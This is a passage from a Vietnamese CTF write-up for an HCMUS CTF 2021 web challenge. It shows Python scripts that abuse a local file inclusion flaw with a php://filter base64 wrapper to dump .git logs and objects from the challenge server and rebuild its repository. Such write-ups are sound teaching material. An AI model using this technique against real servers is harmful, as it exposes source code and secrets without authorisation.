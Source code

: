 ```

def lfi(file_name):
	resp = r.post(url, data={'token':get_token(), 'song': 'php://filter/convert.base64-encode/resource='+file_name})
	return resp.text.split('</pre><html>')[0].replace('<pre>','')

for task in tasks:
	try:
		directory = task[0:task.rindex('/')+1]
		if not os.path.exists(directory):
			os.makedirs(directory)
		f = open(f'{task}', 'wb')
		data = lfi(task)

		if "failed to open stream" not in data:
			f.write(base64.b64decode(data))
		else:
			pass
		f.close()
	except:
		pass
```

Sau khi có khung rồi thì ta tiến hành đọc `log` ở `.git/logs/HEAD` và có thể thấy là những hash của những `commit` đã được liệt kê sẵn ở đây hết. Về cấu trúc lưu trữ object như sau:

[![img](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/4.png)](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/4.png)
Sẽ lấy 2 ký tự đầu của `hash` làm folder và 38 ký tự còn lại làm `file name`. Giờ chỉ cần clone từng cái về và dùng git để đọc các `blob` tiếp theo rồi kéo về và cứ thế đọc hết tất cả file đã được `commit` trước và sau kể từ lúc bắt đầu mà thôi.

[![img](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/5.png)](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/5.png)

```
# get_object.py  
  
#!/usr/bin/env python3  
import requests
import re
import os
import zlib
import base64
import sys

url = 'http://61.28.237.24:30102/'
r = requests.Session()

def get_token():
	resp = r.get(url)
	return re.findall(r'<input name="token" value="(.*)" hidden>', resp.text)[0]

def lfi(file_name):
	resp = r.post(url, data={'token':get_token(), 'song': 'php://filter/convert.base64-encode/resource='+file_name})
	return resp.text.split('</pre><html>')[0].replace('<pre>','')

task = sys.argv[1]
#task = '.git/objects/26/f83e27e96c7371129f76ac70b58f0787153c82'
directory = task[0:task.rindex('/')+1]

if not os.path.exists(directory):
	os.makedirs(directory)

```
